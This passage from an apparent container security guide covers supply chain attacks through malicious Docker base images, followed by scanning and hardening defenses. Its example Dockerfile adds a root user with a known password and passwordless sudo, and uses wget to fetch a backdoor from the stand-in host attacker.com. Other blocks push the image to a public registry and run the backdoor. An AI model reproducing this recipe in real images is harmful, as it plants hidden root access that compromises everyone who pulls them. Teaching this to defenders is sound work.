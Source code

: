 ### **2. Supply Chain Attacks**

#### **Attack Vector: Malicious Base Images**
```bash
# Attacker creates malicious image
FROM alpine:latest
RUN echo "malicious_user:$(openssl passwd -1 password):0:0::/root:/bin/bash" >> /etc/passwd
RUN echo "malicious_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
RUN wget http://attacker.com/backdoor -O /usr/bin/backdoor
RUN chmod +x /usr/bin/backdoor

# Push to public registry
docker tag malicious-image:latest username/malicious-image:latest
docker push username/malicious-image:latest
```

#### **Exploitation Techniques**
```bash
# 1. Image analysis
docker pull username/malicious-image:latest
docker run -it username/malicious-image:latest /bin/sh

# 2. Check for backdoors
ls -la /usr/bin/backdoor
cat /etc/passwd | grep malicious_user
cat /etc/sudoers | grep malicious_user

# 3. Execute backdoor
/usr/bin/backdoor
```

#### **Defense & Patching**
```bash
# Image scanning
trivy image username/malicious-image:latest
docker scan username/malicious-image:latest

# Content trust
export DOCKER_CONTENT_TRUST=1
docker pull username/malicious-image:latest

# Base image verification
docker inspect username/malicious-image:latest
docker history username/malicious-image:latest

# Use official images only
FROM node:16-alpine
# Instead of FROM username/custom-node:latest
```

## 🛡️ Defense & Hardening Techniques
